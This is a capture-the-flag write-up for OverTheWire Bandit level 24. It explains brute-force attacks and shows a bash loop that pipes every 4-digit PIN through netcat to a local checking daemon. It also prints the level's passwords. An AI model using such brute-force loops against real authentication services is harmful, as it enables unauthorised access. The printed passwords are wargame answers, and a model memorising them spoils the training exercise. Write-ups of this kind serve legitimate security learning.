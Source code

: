 ```yaml
---
title: 'Bandit 24 Writeup'
date: '2023-10-14'
lastmod: '2023-10-14'
tags: ['CTF', 'OTW']
summary: "Bandit Level 24 is a challenge involving cron jobs"
thumbnail: '/static/images/bandit-2023/banner.png'
images: ['/static/images/bandit-2023/banner.png']
authors: ['psga','maysu']
layout: PostSimple
hidden: true
---
```

<div className="tocr not-prose">
    <TOCInline
        toc={[
            { value: 'Bandit', url: '/blog/bandit-2023', depth: 1 },
            { value: 'Level-14', url: '/blog/bandit-2023/level-14',depth: 2 },
            { value: 'Level-15', url: '/blog/bandit-2023/level-15', depth: 2 },
            { value: 'Level-16', url: '/blog/bandit-2023/level-16', depth: 2 },
            { value: 'Level-17', url: '/blog/bandit-2023/level-17', depth: 2 },
            { value: 'Level-18', url: '/blog/bandit-2023/level-18', depth: 2 },
            { value: 'Level-19', url: '/blog/bandit-2023/level-19', depth: 2 },
            { value: 'Level-20', url: '/blog/bandit-2023/level-20', depth: 2 },
            { value: 'Level-21', url: '/blog/bandit-2023/level-21', depth: 2 },
            { value: 'Level-22', url: '/blog/bandit-2023/level-22', depth: 2 },
            { value: 'Level-23', url: '/blog/bandit-2023/level-23', depth: 2 },
            { value: 'Level-24', url: '/blog/bandit-2023/level-24', depth: 2,active: true },
            { value: 'Level-25', url: '/blog/bandit-2023/level-25', depth: 2 },
            { value: 'Level-26', url: '/blog/bandit-2023/level-26', depth: 2 },
            { value: 'Level-27', url: '/blog/bandit-2023/level-27', depth: 2 },
            { value: 'Level-28', url: '/blog/bandit-2023/level-28', depth: 2 },
            { value: 'Level-29', url: '/blog/bandit-2023/level-29', depth: 2 },
            { value: 'Level-30', url: '/blog/bandit-2023/level-30', depth: 2 },
            { value: 'Level-31', url: '/blog/bandit-2023/level-31', depth: 2 },
            { value: 'Level-32', url: '/blog/bandit-2023/level-32', depth: 2 },
        ]}
        title="levels"
        rightAlign
    />
</div>


# Concepts to consider
### Brute Force Concept

#### Definition
- **Brute Force Attack**: A method of trial and error used to decode encrypted data such as passwords or Data Encryption Standard (DES) keys. In a brute force attack, automated software is used to generate a large number of consecutive guesses as to the value of the desired data.

#### Working Mechanism
1. **Exhaustive Search**: 
   - The attacker tries every possible combination of characters until the correct one is found. This includes all possible combinations of letters, numbers, and special characters.

2. **Automation**:
   - Automated tools are often used to perform brute force attacks because the number of possible combinations can be extremely large. These tools can systematically generate and test each possible password.

3. **Key Spaces**:
   - The effectiveness and speed of a brute force attack depend on the size of the key space, which is the total number of possible passwords. The larger the key space, the longer the attack will take.

# bandit 24

## Task 

A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.
You do not need to create new connections each time

## Solution
lets connect in the 30002 port, with this command
```
 nc localhost port 
```
then
```
bandit24@bandit:~$ nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Timeout. Exiting.
```
lets create a temp folder and a script to break the password by brute force
```
bandit24@bandit:/tmp/tmp.pJdEj20VVQ$ cat script.sh
for i in {0..9999}
do
        echo "VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar ${i}"
done
```
lets send this to the port 30002

```
bandit24@bandit:/tmp/tmp.pJdEj20VVQ$ ./script.sh | nc localhost 30002
```

In a momment we get this

```
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Correct!
The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d

Exiting.
```